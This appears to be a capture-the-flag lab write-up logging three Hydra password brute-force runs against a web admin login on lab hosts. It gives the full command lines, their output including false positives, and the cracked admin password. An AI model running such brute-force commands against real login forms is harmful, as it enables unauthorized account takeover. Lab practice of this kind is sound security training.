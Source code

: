 host: 10.10.220.119   login: admin   password: xavier

****
### first try - fail
`sudo hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.141.47 -s 80 http-post-form "/admin:user=^USER^&pass=^PASS^:F=<p>Username or password invalid</p>" -o output_hydra`
```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-18 12:58:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9437 login tries (l:1/p:9437), ~590 tries per task
[DATA] attacking http-post-form://10.10.141.47:80/admin:user=^USER^&pass=^PASS^:F=<p>Username or password invalid</p>
[80][http-post-form] host: 10.10.141.47   login: admin   password: 123456
[80][http-post-form] host: 10.10.141.47   login: admin   password: 12345
[80][http-post-form] host: 10.10.141.47   login: admin   password: 123456789
[80][http-post-form] host: 10.10.141.47   login: admin   password: password
[80][http-post-form] host: 10.10.141.47   login: admin   password: iloveyou
[80][http-post-form] host: 10.10.141.47   login: admin   password: princess
[80][http-post-form] host: 10.10.141.47   login: admin   password: 12345678
[80][http-post-form] host: 10.10.141.47   login: admin   password: 1234567
[80][http-post-form] host: 10.10.141.47   login: admin   password: abc123
[80][http-post-form] host: 10.10.141.47   login: admin   password: nicole
[80][http-post-form] host: 10.10.141.47   login: admin   password: babygirl
[80][http-post-form] host: 10.10.141.47   login: admin   password: daniel
[80][http-post-form] host: 10.10.141.47   login: admin   password: monkey
[80][http-post-form] host: 10.10.141.47   login: admin   password: lovely
[80][http-post-form] host: 10.10.141.47   login: admin   password: jessica
[80][http-post-form] host: 10.10.141.47   login: admin   password: 654321
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-18 12:58:59
```
NOT SUCCESSFULL- it shows 16 credentials bcos sth went wrong
It's not a problem with my machine - AttackBox gives the same results

`grep 'login: admin' output_hydra | awk -F"login: " '{print $2}' | awk -F" password: " '{print "login: "$1"pass: "$2}'`
```
login: admin  pass: 123456
login: admin  pass: 12345
login: admin  pass: 123456789
login: admin  pass: password
login: admin  pass: iloveyou
login: admin  pass: princess
login: admin  pass: 12345678
login: admin  pass: 1234567
login: admin  pass: abc123
login: admin  pass: nicole
login: admin  pass: babygirl
login: admin  pass: daniel
login: admin  pass: monkey
login: admin  pass: lovely
login: admin  pass: jessica
login: admin  pass: 654321
```
### second try - fail
2022-09-20 17:32
`sudo hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.13.234 -s 80 http-post-form "/admin:user=^USER^&pass=^PASS^:F=<p>Username or password invalid</p>" -o output_hydra`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-20 17:41:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.13.234:80/admin:user=^USER^&pass=^PASS^:F=<p>Username or password invalid</p>
[80][http-post-form] host: 10.10.13.234   login: admin   password: 123456
[80][http-post-form] host: 10.10.13.234   login: admin   password: 123456789
[80][http-post-form] host: 10.10.13.234   login: admin   password: 12345
[80][http-post-form] host: 10.10.13.234   login: admin   password: password
[80][http-post-form] host: 10.10.13.234   login: admin   password: iloveyou
[80][http-post-form] host: 10.10.13.234   login: admin   password: princess
[80][http-post-form] host: 10.10.13.234   login: admin   password: 1234567
[80][http-post-form] host: 10.10.13.234   login: admin   password: rockyou
[80][http-post-form] host: 10.10.13.234   login: admin   password: 12345678
[80][http-post-form] host: 10.10.13.234   login: admin   password: abc123
[80][http-post-form] host: 10.10.13.234   login: admin   password: nicole
[80][http-post-form] host: 10.10.13.234   login: admin   password: daniel
[80][http-post-form] host: 10.10.13.234   login: admin   password: babygirl
[80][http-post-form] host: 10.10.13.234   login: admin   password: monkey
[80][http-post-form] host: 10.10.13.234   login: admin   password: lovely
[80][http-post-form] host: 10.10.13.234   login: admin   password: jessica
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-20 17:41:14
```

NOT WORKING :<
### third - success
`sudo hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.220.119 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid`
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-24 09:48:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.220.119:80/admin/index.php:user=^USER^&pass=^PASS^:invalid
[80][http-post-form] host: 10.10.220.119   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-24 09:49:05
```